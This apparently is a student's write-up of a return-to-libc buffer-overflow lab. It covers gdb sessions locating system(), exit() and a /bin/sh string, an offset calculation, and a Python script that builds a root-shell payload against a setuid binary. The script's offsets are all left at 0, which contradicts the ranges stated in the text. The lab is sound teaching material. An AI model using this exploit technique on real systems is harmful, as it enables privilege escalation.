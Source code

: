 ```yaml
---
title: Return-to-libc Attack Lab
author: Xinyi Li
date: \today{}
---
```


# Task 1

Use the default `BUF_SIZE` as 12

```shell
gcc -fno-stack-protector -z noexecstack -o retlib retlib.c
sudo chown root retlib
sudo chmod 4755 retlib
```

# Task 2

```shell
[02/27/20]seed@VM:~/.../return_to_lic$ touch badfile
[02/27/20]seed@VM:~/.../return_to_lic$ gdb -q retlib
Reading symbols from retlib...(no debugging symbols found)...done.
gdb-peda$ run
Starting program: /home/seed/Documents/return_to_lic/retlib 
Returned Properly
[Inferior 1 (process 3038) exited with code 01]
Warning: not running or target is remote
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xb7e42da0 <__libc_system>
gdb-peda$ p exit
$2 = {<text variable, no debug info>} 0xb7e369d0 <__GI_exit>
gdb-peda$ quit
```

# Task 3

Write a `envaddr.c`
```c
#include <stdio.h>
#include <stdlib.h>

void main()
{
    char *shell = getenv("MYSHELL");
    if (shell)
        printf("%x\n", (unsigned int)shell);
}
```

**Keep the name of executable program with length 6 (=len(`'retlib'`))**

```shell
gcc envaddr.c -o env666
```

The address of `\bin\sh` is `0xbffffdef`.

# Task 4

Find the offset:

```shell
$ gcc -fno-stack-protector -z noexecstack -g -o retlib_dbg retlib.c
$ gdb -q retlib_dbg
Reading symbols from retlib_dbg...done.
gdb-peda$ b bof
Breakpoint 1 at 0x80484f1: file retlib.c, line 19.
gdb-peda$ run
Starting program: /home/seed/Documents/return_to_lic/retlib_dbg 
...
Breakpoint 1, bof (badfile=0x804fa88) at retlib.c:19
19	    fread(buffer, sizeof(char), 300, badfile);
gdb-peda$ p $ebp
$1 = (void *) 0xbfffecb8
gdb-peda$ p &buffer
$2 = (char (*)[12]) 0xbfffeca4
gdb-peda$ p/d 0xbfffecb8 - 0xbfffeca4
$3 = 20
gdb-peda$ quit
```

So, the distance between `%ebp` and `&buffer` inside the function `bof` is 20 bytes

- The range to store the address of `system` is: `content[24:28]`
- The range to store the address of `exit` is: `content[28:32]`
- The range to store the address of `\bin\sh` is: `content[32:36]`

Compose `exploit.py` as follows:

```py
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

X = 0
sh_addr = 0xbffffdef       # The address of "/bin/sh"
content[X:X+4] = (sh_addr).to_bytes(4,byteorder='little')

Y = 0
system_addr = 0xb7e42da0   # The address of system()
content[Y:Y+4] = (system_addr).to_bytes(4,byteorder='little')

Z = 0
exit_addr = 0xb7e369d0     # The address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4,byteorder='little')

# Save content to a file
with open("badfile", "wb") as f:
  f.write(content)
```
